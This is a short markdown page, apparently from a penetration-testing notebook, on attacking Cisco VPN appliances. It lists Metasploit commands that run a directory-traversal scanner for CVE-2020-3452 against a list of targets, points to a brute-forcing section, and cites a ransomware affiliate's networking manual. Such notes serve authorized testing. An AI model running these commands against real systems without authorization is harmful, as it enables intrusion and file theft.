 # Cisco

## 01 - CVE

### 1.1 - CVE-2020-3452

```
msf > use auxiliary/scanner/http/cisco_directory_traversal
msf > set RHOSTS file:cisco.txt
msf > run
```

TODO: Fill in the CVEs for Cisco VPN appliances

## 02 - Bruteforce

Refer to this [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x00 - Exploitation/0xC - Password Cracking/Online/Network Protocols/Remote Services/VPN/VPN Appliances/Cisco|section]] for bruteforcing Cisco VPN appliance.

---
## References

- [VX Underground Papers: Bassterloard (FishEye) Networking Manual](https://web.archive.org/web/20230531145531/https://papers.vx-underground.org/papers/Malware%20Defense/Malware%20Analysis%202021/2021-08-31%20-%20Bassterlord%20%28FishEye%29%20Networking%20Manual%20%28X%29.pdf)